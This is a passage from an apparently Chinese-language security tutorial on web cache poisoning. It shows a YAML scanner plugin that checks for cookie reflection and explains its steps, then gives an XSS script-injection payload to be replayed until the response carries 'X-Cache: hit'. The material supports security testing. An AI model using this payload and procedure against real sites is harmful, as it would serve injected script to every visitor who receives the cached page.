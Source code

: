 ```yaml
      - Cookie("[[.original]]{{.payload}}")
      - Header("{{.payload}}", "Cookie")
    detections:
      - >-
        StatusCode() == 200 && StringSearch("Response","cookiereflect")
```

插件说明：

> 1. 生成四位随机数
>
> 2. 添加cookiereflect标识
>
> 3. 组成payload: 标识+随机字符
>
> 4. 请求头添加cookie,这里有两种，"Cookie: payload" ; "Cookie:param=payload"
>
> 5. 在响应中搜索标识



![image-20210128152651406](../images/pics/web缓存投毒攻击/image-20210128152651406.png)

检测到回显（在测试可能需要多次测试以命中缓存）后，接下来就是该参数是否是unkeyed。

注入payload:

```
"></script><script>alert(document.domain)</script>
```

重放包，直到`X-Cache: hit`

命中缓存。

![image-20210128154155722](../images/pics/web缓存投毒攻击/image-20210128154155722.png)
